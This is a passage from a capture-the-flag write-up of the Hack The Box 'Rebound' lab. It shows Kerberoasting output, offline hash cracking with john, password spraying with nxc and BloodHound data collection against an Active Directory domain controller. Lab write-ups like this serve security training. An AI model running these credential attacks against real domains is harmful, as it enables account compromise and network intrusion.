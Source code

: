 ```bash
[-] Principal: tbrady - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
```

We have successfully retrieved SPNs (excluding DC account) from both `ldap_monitor` and `delegator$`!
```bash
┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ cat kerb.hashes 
$krb5tgs$18$DC01$$REBOUND.HTB$*DC01$*$148a047b4b72126a9f86c2....<SNIP>....bc8e
$krb5tgs$23$*ldap_monitor$REBOUND.HTB$ldap_monitor*$fe1f31a9....<SNIP>....91a6
$krb5tgs$18$delegator$$REBOUND.HTB$*delegator$*$afb59a9b040b....<SNIP>....dd7d
```

**Cracking the Hashes**

Both `delegator$` (machine account) and `ldap_monitor` had SPNs set so were kerberoastable, giving us a hash for both. As we will later find out `delegator$` is a `gMSA` account so won't be crackable as `gMSA` accounts have 240-byte, non human-readable passwords. This shows both the best and worst way to manage service accounts' credentials!

```bash
┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ john kerb.hashes --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt             
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 (MD4 HMAC-MD5 RC4))
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[REDACTED]       (?)     
1g 0:00:00:10 DONE (2025-10-19 08:54) 0.09208g/s 1200Kp/s 1200Kc/s 1200KC/s 1Gobucs!..1DENA
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

**Password spraying**
We got two hits:
```bash
┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ nxc ldap DC01.rebound.htb -u 'valid-users.txt' -p '[REDACTED]' --continue-on-success --no-bruteforce
[...]
LDAP        10.129.232.31   389    DC01             [+] rebound.htb\ldap_monitor:[REDACTED]
LDAP        10.129.232.31   389    DC01             [+] rebound.htb\oorend:[REDACTED]
```

---

### Mapping the Domain with BloodHound
Collecting our data with `rusthound-ce`:
```bash
┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ rusthound -u 'ldap_monitor@rebound.htb' -p '[REDACTED]' -d rebound.htb -f dc01.rebound.htb
```
We discovered that we have `AddSelf` on `ServiceMgmt` then `GenericAll` over the `Service Users` OU, which could lead to a Descendant Object Takeover (DOT).